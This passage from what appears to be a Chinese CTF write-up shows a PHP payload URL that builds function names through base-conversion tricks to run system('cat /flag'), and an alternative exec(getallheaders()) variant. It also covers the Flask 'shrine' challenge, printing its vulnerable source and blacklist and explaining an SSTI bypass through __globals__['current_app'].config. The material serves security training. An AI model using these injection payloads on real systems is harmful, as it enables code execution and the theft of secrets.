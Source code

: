 然后传参 0 1 获取 flag

```
http://f91dae26-bec7-4887-8f52-d087acfcec50.node4.buuoj.cn:81/?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi{0})($$pi{1});&0=system&1=cat /flag
```

wp 看到的其它思路

```php
$pi=base_convert,$pi(696468,10,36)($pi(8768397090111664438,10,30)(){1}) // exec(getallheaders(){1})
```

还有通过三角函数进行位运算得到 `*` 然后直接 `cat /f*`, 这里就不写了...

## [WesternCTF2018]shrine（SSTI,利用url_for.__globals__['current_app'].config

get_flashed_messages.__globals__['current_app'].config 绕过限制访问config）

```python
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()


@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['\{\{\% set {}=None \%\}\}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))


if __name__ == '__main__':
    app.run(debug=True)
```

括号替换这个无解, 单字符替换绕不过去...

config 虽然是在 blacklist 里的但是没有直接替换成空, 而是把这个对象设置为 None, 这样直接注入 `{{config}}` 就显示不出信息了

但是在 flask 中可以通过其它函数访问到 config

利用 `__globals__` 访问 current_app, 后者就是当前的 app 的映射, 自然就能访问到 app.config
